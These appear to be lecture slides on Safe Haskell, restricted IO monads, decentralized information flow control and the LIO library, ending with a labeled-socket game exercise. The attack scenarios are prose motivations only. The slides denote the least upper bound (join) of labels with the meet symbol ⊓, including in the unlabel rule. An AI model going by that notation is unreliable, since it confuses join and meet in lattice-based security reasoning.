    ~~~~

# Safe vs. Trustworthy

* A module compiled `-XSafe` can only import safe modules
    * As if all imports implicitly have `safe` keyword
* But there are *two* kinds of safe module
    1. Modules verified to be safe by the compiler, compiled `-XSafe`
    2. Modules asserted to be safe by the author, compiled
    `-XTrustworthy`
* So a module like `Data.ByteString` can be compiled `-XTrustworthy`
    * Put unsafe functions in separate `Data.ByteString.Unsafe` module
    * Assert `Data.ByteString`'s exported symbols cannot be used
      unsafely, even if the module internally makes use of unsafe
      functions
* Of course, might or might not trust module author
    * Can specify on a per-package basis whether to honor `-XTrustworthy`
    * Use flags, `-trust` *Pkg*, `-distrust` *Pkg*, `-distrust-all-packages`
    * Can also set default for a package with `ghc-pkg`

# What if untrusted code needs to do IO?

* Suppose you want to translate to a real language
    * Generally requires massive data sets
    * Untrusted code would at minimum need to do file IO
    * Or maybe easiest to send text over network to, e.g., Google translate
* Idea: use a *restricted* IO monad, `RIO`
    * Untrusted third party implements `googleTranslate` function

        ~~~~ {.haskell}
        googleTranslate :: Language -> L.ByteString -> RIO L.ByteString
        ~~~~

    * But uses the `RIO` monad, instead of `IO`
    * Implement `RIO` functions to access network, file system
    * Have functions reject *dangerous* operations
    * Can use same names and port `IO` code to `RIO` by manipulating imports

# Example: hypothetical `RIO` monad

~~~~ {.haskell}
{-# LANGUAGE Trustworthy #-}
module RIO (RIO(), runRIO, RIO.readFile) where

-- Notice that symbol UnsafeRIO is not exported from this module!
newtype RIO a = UnsafeRIO (IO a)
runRIO :: RIO a -> IO a
runRIO (UnsafeRIO io) = io

instance Monad RIO where
    return = UnsafeRIO . return
    m >>= k = UnsafeRIO $ runRIO m >>= runRIO . k

-- Returns True iff access is allowed to file name
pathOK :: FilePath -> IO Bool
pathOK file = {- Implement some policy based on file name -}

readFile :: FilePath -> RIO String
readFile file = UnsafeRIO $ do
  ok <- pathOK file
  if ok then Prelude.readFile file else return ""
~~~~

* Note use of `newtype` -- `RIO` is same as `IO` at runtime
    * But cannot create `RIO` action from `IO` one without `UnsafeRIO`
      symbol...  not exported, so untrusted code cannot bury `IO`
      actions in `RIO` ones

# Example policies for RIO

* Only read and write files under some sandbox subdirectory
    * Protect most of file system from untrusted code
* Do not allow execution of other programs
    * Would escape from `RIO` restrictions
* Only allow connections to port 80, and only to known servers
    * Don't want untrusted code sending spam, attacking mysql, etc.
* Do not allow access to devices
    * Microphone, camera, speaker, etc.
* Similar to policies that apply to Java/JavaScript in browser

# Why RIO isn't enough

* What if the web site contains private data, such as email?
* An attack by malicious `googleTranslate` function:
    * Save a copy of private email under `/sandbox` (allowed)
    * When asked to translate a special string, return stored email
    * Attacker sends himself an email with special string to read stored email
* Another attack
    * Send query to attacker's own website instead of Google
* Problem: really need to keep track of what information is sensitive
    * Okay to send public data over network
    * Not okay to send email (or maybe only okay to send to specific Google URL)
    * Okay to write files, but have to keep track of which files
      contain whose email
* Solution: Decentralized Information Flow Control (DIFC)

# What is DIFC?

* IFC originated with military applications and classified data
* Every piece of data in the system has a label
* Every process/thread has a label
* Labels are partially ordered by $\sqsubseteq$ ("can flow to")
* Example:  Emacs (labeled $L_E$) accesses file (labeled $L_F$)

# What is DIFC?

* IFC originated with military applications and classified data
* Every piece of data in the system has a label
* Every process/thread has a label
* Labels are partially ordered by $\sqsubseteq$ ("can flow to")
* Example:  Emacs (labeled $L_E$) accesses file (labeled $L_F$)
    * File read?  Information flows from file to emacs.  System
      requires $L_F\sqsubseteq L_E$.

# What is DIFC?

* IFC originated with military applications and classified data
* Every piece of data in the system has a label
* Every process/thread has a label
* Labels are partially ordered by $\sqsubseteq$ ("can flow to")
* Example:  Emacs (labeled $L_E$) accesses file (labeled $L_F$)
    * File read?  Information flows from file to emacs.  System
      requires $L_F\sqsubseteq L_E$.
    * File write?  Information flows in both directions.  System
      enforces that $L_F\sqsubseteq L_E$ and $L_E\sqsubseteq L_F$.

# Labels are transitive

* $\sqsubseteq$ is a transitive relation - makes it easier to reason
  about security
* Example: Label file so it cannot flow to Internet
    * Policy holds regardless of what other software does

# Labels are transitive

* $\sqsubseteq$ is a transitive relation - makes it easier to reason
  about security
* Example: Label file so it cannot flow to Internet
    * Policy holds regardless of what other software does
* Suppose a buggy app reads file (e.g., desktop search)

# Labels are transitive

* $\sqsubseteq$ is a transitive relation - makes it easier to reason
  about security
* Example: Label file so it cannot flow to Internet
    * Policy holds regardless of what other software does
* Suppose a buggy app reads file (e.g., desktop search)
    * Process labeled $L_\mathrm{bug}$ reads file, so must have
      $L_F\sqsubseteq L_\mathrm{bug}$
    * But $L_F\sqsubseteq L_\mathrm{bug}\wedge
      L_\mathrm{bug}\sqsubseteq L_\mathrm{net}\Longrightarrow
      L_F\sqsubseteq L_\mathrm{net}$, thus
      $L_\mathrm{bug}\> !\sqsubseteq L_\mathrm{net}$

# Labels are transitive

* $\sqsubseteq$ is a transitive relation - makes it easier to reason
  about security
* Example: Label file so it cannot flow to Internet
    * Policy holds regardless of what other software does
* Conversely, any app that can write to network cannot read file

# Labels form a lattice

* Consider two users, $A$ and $B$
    * Label public data $L_\emptyset$, $A$'s private data $L_A$, $B$'s
      private data $L_B$
* What happens if you mix $A$'s and $B$'s private data in a single document?
    * Both $A$ and $B$ should be concerned about the release of such a document
    * Need a label at least as restrictive as both $L_A$ and $L_B$
    * Use the least upper bound (a.k.a. *lub* or *join*) of $L_A$ and $L_B$,
      written $L_A\sqcap L_B$

# **D**IFC is **D**ecentralized

* Every process has a set of privileges
* Exercising privilege $p$ changes label requirements
    * $L_F\sqsubseteq_p\> L_\mathrm{proc}$ to read, and additionally
      $L_\mathrm{proc}\sqsubseteq_p\> L_F$ to write file
    * $\sqsubseteq_p$ (``can flow under privileges $p$'') is more
      permissive than $\sqsubseteq$
* Idea: Set labels so you know who has relevant privs.

# Example privileges

* Consider again simple two user lattice
* Let $a$ be user $A$'s privileges, $b$ be user $B$'s privileges
* Clearly $L_A\sqsubseteq_a\>L_\emptyset$ and $L_B\sqsubseteq_b\>L_\emptyset$
    * Users should be able to make public or *declassify* their own private data
* Users should also be able to *partially declassify* data
    * I.e., $L_{AB}\sqsubseteq_a\>L_B$ and $L_{AB}\sqsubseteq_b\>L_A$

# `LIO` Monad
<!--
[[Stefan]](http://www.cse.chalmers.se/~russo/publications_files/haskell11.pdf)
-->

* Let's define `Label`s as points on a lattice
    (type with $\sqsubseteq$, $\sqcap$, and $\sqcup$)

    ~~~~ {.haskell}
    class (Eq l, Show l) => Label l where
        lub :: l -> l -> l
        glb :: l -> l -> l
        canFlowTo :: l -> l -> Bool
    ~~~~

* Define privileges as any type with $\sqsubseteq_p$ for a given label
      type

    ~~~~ {.haskell}
    class Label l => PrivDesc l p where
        canFlowToPrivDesc :: p -> l -> l -> Bool
        partDowngradePrivDesc :: p -> l -> l -> l
        -- use p to get as close to second l as possible from first
    ~~~~

    * But how to prevent malicious code from synthesizing privileges?

    * Really, `PrivDesc` instance _describes_ privileges, but doesn't
      confer any

    * Wrap them in type `Priv` and they give you power:

    ~~~~ {.haskell}
    newtype Priv a = PrivTCB a deriving (Show, Eq, Typeable)
    ~~~~

    * Use Safe Haskell to ensure only trusted code sees `PrivTCB` constructor

# Using labels in Haskell

~~~~ {.haskell}
instance (Label l) => Monad (LIO l) where ...
~~~~

* Introduce new _labeled IO_ monad `LIO`.  Like `RIO`, except:
    * Also keeps track of thread's _current label_ and _current clearance_

* Represent labeled pure values with type wrapper

    ~~~~ {.haskell}
    data Labeled l t = LabeledTCB l t
    ~~~~

* Can label and unlabel values within `LIO` monad:

    ~~~~ {.haskell}
    label :: Label l => l -> a -> LIO l (Labeled l a)
    unlabel :: (Label l) => Labeled l a -> LIO l a
    unlabelP :: Priv l p => p -> Labeled l a -> LIO l a
    ~~~~

    * `label` requires value label to be between current label & clearance
    * `unlabel` raises current label to:  old current label $\sqcap$ value label
    * `unlabelP` uses privileges to raise label less

# Other `LIO` features

* Clearance
    * Represents upper bound on current label
    * Can lower clearance to label, but raising requires privileges
    * Allows "need-to-know" policies, reducing danger of covert channels

* Haskell's abstraction mechanisms work well for guarding privileges
    * E.g., curry privileges into first argument of function

* Gates -- Functions to which caller can prove posession of privilege

* Labeled mutable variables (`LIORef`s)

* Threads
    * Can use threads to compute things at different labels  
      (e.g., interact with multiple web sites before combining the data)
    * Labeled `MVar`s (`LMVars`)

# DC Labels

* We would ideally like $L_\emptyset$ to be in middle of lattice
* Define labels as consisting of **2** components
  $L = \langle$Secrecy `%%` Integrity$\rangle$
* Label components & privileges are boolean formulas over *principals*
    * Represent as minimal formulas in CNF, without negation
    * Makes labels unique, operations decidable
* $\langle S_1$ `%%` $I_1\rangle\sqsubseteq_p
  \ \langle S_2$ `%%` $I_2\rangle$
  iff
    * $S_2 \wedge p \Longrightarrow S_1$, and
    * $I_1 \wedge p \Longrightarrow I_2$ (note reversed order)
* Means you need privileges to weaken S, or to add to I
    * $p=$`True` means no privileges, $p=$`"David"` means some privileges
    * $p=$`False` would confer all privileges
* Note disjunctive clauses in CNF formulas called
    _categories_

# What is a principal?

* Principals are just strings
    * E.g., might correspond to users or web sites

* Also have pseudo-principals starting with `#`
    * By convention, system never grants privileges starting `#`
    * Pseudo-principals let you subdivide privileges
    * Example: $\texttt{dm}\vee\texttt{#friends}$
      ($\texttt{dm}\Longrightarrow\texttt{dm}\vee\texttt{#friends}$,
      but not vice versa)

# Clearance and DC labels

* Convenient to have different default $L_\mathrm{cur}$ and $C_\mathrm{cur}$
* Set default label $L_\mathrm{def} = L_\emptyset = \langle\emptyset$ 
  `%%` $\emptyset\rangle = \langle$True `%%` True$\rangle$
* Set default clearance to $C_\mathrm{def} =\langle$`#clearance %%` True$\rangle$
* Example policy: Everyone can read, only I can export
    * Say my privileges are $p=$`dm`
    * Label object with $L = \langle S$ `%%` True$\rangle$
     where $S = $`dm` $\vee$ `#clearance`$\rangle$

    * $p\Longrightarrow S$, so $L\sqsubseteq_p L_\emptyset$ and I can
      export data

    * Also $S\Longrightarrow$ `#clearance`, so $L\sqsubseteq
      C_\mathrm{def}$--i.e., others can taint themselves to read data,
      but not export it

# Defining labeled objects

* Create `NetLib.hs`, play with variations on `test`:

    ~~~ {.haskell}
    {-# LANGUAGE Trustworthy #-}

    module NetLib where
    import Network (PortID(..), HostName, PortNumber)
    import qualified Network as IO
    import safe qualified System.IO as IO

    import safe LIO
    import safe LIO.DCLabel
    import LIO.TCB.LObj

    type Handle = LObj DCLabel IO.Handle

    hPutStrLnP :: PrivDesc l p =>
       Priv p -> LObj l IO.Handle -> String -> LIO l ()
    hPutStrLnP = blessPTCB IO.hPutStrLn

    hPutStrLn :: Label l => LObj l IO.Handle -> String -> LIO l ()
    hPutStrLn = blessTCB IO.hPutStrLn

    hGetLine :: Label l => LObj l IO.Handle -> LIO l String
    hGetLine h = blessTCB IO.hGetLine h

    test = evalDC $ hGetLine (LObjTCB (True %% True) IO.stdin)
    ~~~

# Main exercise: LIO multi-player game

* `NetLib.hs` -- `{-# LANGUAGE Trustworthy #-}`
* `Common.hs` -- `{-# LANGUAGE Safe #-}` (`Move`, `outcome`, etc.)
* `Play.hs` -- `{-# LANGUAGE Safe #-}`
* `liorock.hs` (mainly IO code)

* Goal: Make it impossible for third-party translations of game (that
  substitute alternate `Play.hs`) to cheat

* Label each socket with the host/port number, as follows

    ~~~ {.haskell}
    type Socket = LObj DCLabel IO.Socket

    acceptP :: DCPriv -> Socket -> DC (Handle, Principal)
    acceptP p s = do
      (ioh, name, port) <- blessPTCB IO.accept p s
      let net = principal $ "tcp://" ++ name ++ ":" ++ show port
          label = dcLabel (privDesc p \/ net) (privDesc p \/ net)
      guardAllocP p label
      let h = LObjTCB label ioh
      hSetBufferingP p h IO.LineBuffering
      return (h, net)
    ~~~ 

[cabal-install]: http://hackage.haskell.org/package/cabal-install
[RWH]: http://book.realworldhaskell.org/
[Platform]: http://hackage.haskell.org/platform/
[GHC]: http://www.haskell.org/haskellwiki/GHC
[GHCdoc]: http://www.haskell.org/ghc/docs/latest/html/users_guide/index.html
[GHCI]: http://www.haskell.org/ghc/docs/latest/html/users_guide/ghci.html
[Hoogle]: http://www.haskell.org/hoogle/
[DMR]: http://www.haskell.org/onlinereport/haskell2010/haskellch4.html#x10-930004.5.5
[DMRWiki]: http://www.haskell.org/haskellwiki/Monomorphism_restriction
[Awkward]: http://research.microsoft.com/en-us/um/people/simonpj/papers/marktoberdorf/mark.pdf
[default]: http://www.haskell.org/onlinereport/haskell2010/haskellch4.html#x10-790004.3.4

[SafeHaskell]: http://www.haskell.org/ghc/docs/latest/html/users_guide/safe-haskell.html

[`Network`]: http://hackage.haskell.org/packages/archive/network/latest/doc/html/Network.html
[imprecise exceptions]: http://research.microsoft.com/en-us/um/people/simonpj/papers/imprecise-exn.htm
[`Control.Exception`]: http://hackage.haskell.org/packages/archive/base/latest/doc/html/Control-Exception.html
[`Control.Concurrent`]: http://hackage.haskell.org/packages/archive/base/latest/doc/html/Control-Concurrent.html
[`Control.Concurrent.Chan`]: http://hackage.haskell.org/packages/archive/base/latest/doc/html/Control-Concurrent-Chan.html
[`Network.Socket`]: http://hackage.haskell.org/packages/archive/network/latest/doc/html/Network-Socket.html
[`System.Timeout`]: http://hackage.haskell.org/packages/archive/base/latest/doc/html/System-Timeout.html
[`MVar`]: http://hackage.haskell.org/packages/archive/base/latest/doc/html/Control-Concurrent-MVar.html
[`bracket`]: http://hackage.haskell.org/packages/archive/base/latest/doc/html/Control-Exception.html#v:bracket
[RFC3493]: http://tools.ietf.org/html/rfc3493
